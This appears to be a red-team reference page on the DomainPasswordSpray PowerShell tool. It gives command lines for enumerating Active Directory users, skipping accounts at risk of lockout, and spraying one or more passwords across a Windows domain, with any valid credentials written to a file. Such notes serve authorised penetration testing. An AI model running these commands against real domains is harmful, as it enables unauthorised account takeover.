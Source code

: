 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - privilege-escalation
  - password-cracking
  - password-spraying
  - bring-your-own-land
  - windows
---
```

# Scripts

## DomainPasswordSpray

Perform automated user enumeration then password spray process when executing from the current domain.

```
PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt
```

Specifying a password list then check for [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xA - Internal Reconnaissance/Users/Manual/Living off the Land|account lockout observation window]].

```
PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.lst -OutFile credentials.txt
```

You can output the user accounts without lockouts.

```
PS C:\> Get-DomainUserList -Domain <DOMAIN> -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ASCII users.lst

PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.lst -Password <password> -OutFile credentials.txt
```

---
## References

### Source Repositories

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

### Pwnage Base

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)